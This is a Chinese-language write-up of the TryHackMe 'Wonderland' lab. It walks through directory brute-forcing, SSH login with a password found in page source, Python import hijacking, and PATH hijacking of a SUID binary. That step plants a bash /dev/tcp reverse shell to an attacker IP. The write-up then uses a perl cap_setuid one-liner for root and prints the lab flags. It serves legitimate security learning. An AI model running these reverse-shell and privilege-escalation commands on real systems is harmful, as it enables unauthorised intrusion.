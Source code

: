 # Wonderland Writeup
> URL: https://tryhackme.com/dashboard

IP : 

## Recon
- 一直 nmap 太老梗太無聊了
	- 來玩玩新東西 `RustScan`
	- `wget https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb`
	- `sudo dpkg -i rustscan_2.0.1_amd64.deb`
- `rustscan -a 10.10.166.15`
	- ![](https://i.imgur.com/Gnkagw5.png)
	- 開 22 跟 80
## 網址
- http://10.10.166.15/
	- 透過 dirsearch 可以找到
		- `/r`
	- http://10.10.166.15/r/ 再掃，可以掃到
		- `/a`
		- ![](https://i.imgur.com/ynk4AVX.png)
	- 感覺每次都是一個字，所以可以爆搜看看，自己寫一個 python 腳本
		- ```python
			import requests
			from multiprocessing import Pool

			url = 'http://10.10.166.15/r/a/'
			alphabat = 'abcdefghijklmnopqrstuvwxyz'

			def req(i):
				res = requests.get(f'{url}/{i}')
				if res.status_code == 200:
					print(i)

			p = Pool(10)
			p.map(req,alphabat)  
			```
		- 如果爆到正確的就會 print 出來，然後手動把搜的結果加去 url 最後面再爆
			- 所以最後爆出的結果是`r/a/b/b/i/t`

- http://10.10.166.15/r/a/b/b/i/t/
	- ![](https://i.imgur.com/dZNYcX2.png)
	- 觀察原始碼會發現一串奇怪的字串
		- `alice:HowDothTheLittleCrocodileImproveHisShiningTail`
		- 斷詞後發現是 `How Doth The Little Crocodile Improve His Shining Tail`
		- 來自於
			- How Doth the Little Crocodile
			- 路易斯·卡羅創作的詩
			```
			How doth the little crocodile
			  Improve his shining tail
			And pour the waters of the Nile
			  On every golden scale!

			How cheerfully he seems to grin
			  How neatly spreads his claws,
			And welcomes little fishes in
			  With gently smiling jaws!
			```
		- 好...完全不重要
## SSH
- 通靈一下，我們時常會把帳號跟密碼用 `:` 隔開
	- 說不定，上面那串就是 alice 的密碼！嘗試ssh登入看看
		- `ssh alice@10.10.166.15`
			- 密碼 `HowDothTheLittleCrocodileImproveHisShiningTail`
		- ![](https://i.imgur.com/gjqdOYu.png)
- 到處找了一輪，都找不到 `user.txt` QAQ
	- 算了，我們直接想辦法提權，等有 root 後再用上帝視角來搜!
	- 但反而我們使用者`alice`的家目錄有一個沒有權限讀的 `root.txt`
	- ![](https://i.imgur.com/oOd2vhi.png)
- 輸入 `sudo -l` 觀察
	- ![](https://i.imgur.com/BjLRyHY.png)
	- 發現我們可以用 `rabbit` 使用者身分執行 `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
	- 所以執行方法應該如下 `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
`
## 挾持 Python
- 觀察 `walrus_and_the_carpenter.py`
	- 發現內部的程式碼會 `import random`
	- 這個時候我們可以透過一些小技巧挾持他的 `random`
- Python 的 import 有一個特性
	- 首先他會讀取同一個資料夾裡面，是否有相同檔名的檔案來給他 Import
	- 再來才會去找 `sys.path` 裡面的東西
		- 可以輸入 `python3 -c "import sys; print(sys.path)"` 觀察
- 所以由於該檔案在我們家目錄，我們可以在自己家目錄下創一個 `random.py`
	- 此時如果執行該 python 檔案，即可使用我們自己的 random
	- 我們建造的 `random.py` 
		```python3
		import pty
		pty.spawn("/bin/bash")
		```
	- 以 `rabbit` 使用者執行看看
		- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
		- 就會發現我們噴成 rabbit 的 shell 了!
			- ![](https://i.imgur.com/Oo40rbI.png)

## 逆向工程
- 進入 rabbit 後，發現他的家目錄有一個 `teaParty` 的檔案
	- 透過 `file teaParty` 檢查會發現他是一個 ELF 執行檔
		- ![](https://i.imgur.com/9qL5oDi.png)
	- 透過 `ls -al teaParty` 會發現他有 SUID
		- ![](https://i.imgur.com/SYqw5mF.png)
	- 那不管了，我們先執行看看ㄅ!
		- `./teaParty`
			- ![](https://i.imgur.com/Zc4fGaO.png)
			- 噴了一些字，還有當前時間就卡住了，感覺可以讓我輸入一些字，那就先隨便輸入個 `meow` 看看ㄅ
			- 哇...... 噴出了 `Segmentation fault (core dumped)`
				- ![](https://i.imgur.com/Eni6IZo.png)
				- 母...母湯阿，不會在這邊要開始打 `pwn` 了吧 QWQ
			- 好吧，那我們先把檔案抓出來分析看看
				- `cp teaParty /tmp`
				- `chmod 777 /tmp/teaParty`
				- 本機
					- `scp alice@10.10.166.15:/tmp/teaParty .`
- 透過 Cutter 打開
	- ![](https://i.imgur.com/5QJYvOD.png)
	- 觀察 `main` 函數會發現，先會 set `uid` 跟 `gid` 為 0x3eb = 1003
	- 先觀察一下 uid、gid 1003 是誰
		- `cat /etc/passwd | grep 1003`
		- ![](https://i.imgur.com/ZXCPLk5.png)
		- 會發現是一個叫做 `hatter` 的使用者
- 關於逆向這個程式，很明顯的重點就是以下三行
	- `setuid(0x3eb);`
	- `setgid(0x3eb);`
	- `system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");`
	- 然後他的 `Segmentation fault` 是假的
		- 7777777777777777777

- 我們可以發現他的 system 裡面主要 call 了兩個東西
	- 第一個是 `/bin/echo`
	- 第二個是 `date`
	- 在這邊我先查詢了 `/bin/echo` 以及 `/bin/date` 發現都不可以修改
- 想到我們可以做什麼事情了嗎?
	- 程式裡面的 `system` 呼叫的是 `date` 而不是 `/bin/date`
	- 而在 Linux 中，如果不寫完整的路徑，就會去`$PATH`裡面抓
	- 所以我們可以修改 `$PATH` ，增加路徑，並放上我們自己ㄉ `date` 檔案
		- 放一個 reverse shell
			- `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'`
		- 攻擊機準備好 reverse shell
			- `nc -vlk 7877` 
		- 再輸入以下指令
			- `PATH=/home/rabbit:$PATH ./teaParty`
- 就可以收到 reverse shell 了!!
	- ![](https://i.imgur.com/ZZ9wpv0.png)
	- 我們目前到了 `hatter` 使用者
	- 在根目錄可以發現一組 `WhyIsARavenLikeAWritingDesk?` 密碼，可以以此用 ssh 登入 hatter
	- `ssh hatter@10.10.166.15`
## 提權
- 先透過 scp 把 linpeas 給傳到機器中
	- ![](https://i.imgur.com/2Qlr3yo.png)
- 輸入 `bash linpeas.sh`
	- 發現一些有趣的東西
- 在 `Capabilities` 的地方可以看到
	- Files with capabilities
		- ![](https://i.imgur.com/hPtNFxo.png)
		- 發現 perl 有 `cap_setuid`
		- 去 [GTFObins](https://gtfobins.github.io/)  上找 
- 就找到了 GTFObins 上面的 [perl Capabilities](https://gtfobins.github.io/gtfobins/perl/#capabilities)
	- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
		- ![](https://i.imgur.com/bveY1BS.png)
		- 就發現了我們拿到 root !!
- 也就順利的拿到了 root 的 flag
	- ![](https://i.imgur.com/aSVKD2j.png)
	- `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
- 到 /root 看看有什麼東西
	- ![](https://i.imgur.com/HFeDVn0.png)
	- 找到了 `user.txt`
		- `thm{"Curiouser and curiouser!"}`
		- ~~把user.txt放在root目錄是不是搞錯了什麼~~